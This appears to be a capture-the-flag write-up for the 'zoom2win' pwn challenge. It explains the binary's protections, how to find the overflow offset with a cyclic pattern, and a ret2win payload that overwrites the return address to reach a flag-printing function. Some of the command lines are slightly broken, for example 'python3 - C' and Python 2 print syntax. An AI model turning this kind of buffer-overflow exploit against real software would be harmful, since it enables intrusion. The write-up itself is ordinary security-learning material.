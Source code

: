### N o T e S

---

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

```py
NO PIE - It means the executable file and server have the same coded source file and won't change each time the program loads.
NX ENABLED - We cannot inject our own shellcode to the stack and execute it.
NO STACK CANARY - We can overflow the buffer and there won't be any canaries.
PARTIAL RELRO - read and write availability.
```

---

Use Ghidra and GDB. 

```py
PUTS - It displays some output just like printf.
GETS - It reads some data just like scanf.

Finding the offset : 
1. Generate a cyclic pattern : cyclic 100.
2. The first four bytes in RSP is the offset.
3. Use cyclic -l <four bytes> to find the actual offset.
4. Use the offset to overflow the function and return statement.

Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.

---

Thank you

